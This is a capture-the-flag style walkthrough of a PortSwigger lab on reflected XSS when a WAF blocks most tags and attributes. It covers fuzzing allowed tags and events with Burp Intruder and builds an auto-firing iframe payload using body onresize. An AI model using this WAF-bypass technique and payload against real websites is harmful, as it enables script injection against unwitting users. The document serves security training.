







# Reflected XSS into HTML context with most tags and attributes blocked

## Lab Description :


## Solution :
The search functionality is vulnerable to reflected XSS but common XSS payloads won't work since there is a WAF in place.

Our search string is embedded in the apge as follows,

``<h1>0 search results for 'hello'</h1>``

Injecting a normal XSS payload like ``<script>alert()</script>`` gets blocked by WAF.



Identify which tag is allowed - Enter the search term as <>. Capture the request and send it to intruder. Add <$$> as payload position.
```html
GET /?search=<§§> HTTP/1.1
Host: 0a1300d9043edb1c818d61cc009200c0.web-security-academy.net
Cookie: session=PwoeDxVtyiAquLqztnpHiyQnevAosy2n
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a1300d9043edb1c818d61cc009200c0.web-security-academy.net/?search=hello
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

Go to XSS cheatsheet and click copy tags to clipboard.Paste it in payloads section & start the attack.

From the results, we can see that tag is allowed.



Identify which event is allowed - Now update the search term to <body%20=1>

Add the payload position as follows - <body%20$$=1>

Go to XSS Cheatsheet & copy all the events and paste it in payload section.Start the attack.

From the results we understand onresize event is allowed.



Identify the right payload - Update the search term to <body%20onresize=1>.

Now we can use the cheatsheet to find our right payload. In this case it is -



Resize the page to trigger an print() function.



In order to solve the lab, there must not be user interaction to trigger the payload since it is sent to victim. The print command needs to be performed automatically without any user interaction. Therefore I need a way to enforce the resize event without requiring the victim to do it.So I include onload=this.style.width='100px' to automatically resize the page when it loads . This willl now trigger an XSS .

Final payload -

``<iframe src="https://0a1300d9043edb1c818d61cc009200c0.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>``

URL-encode the entire search term to ensure nothing goes amiss inside the iframe.

Store & deliver exploit to victim to solve the lab.



#### Visit The Next Page For The Next Level :)
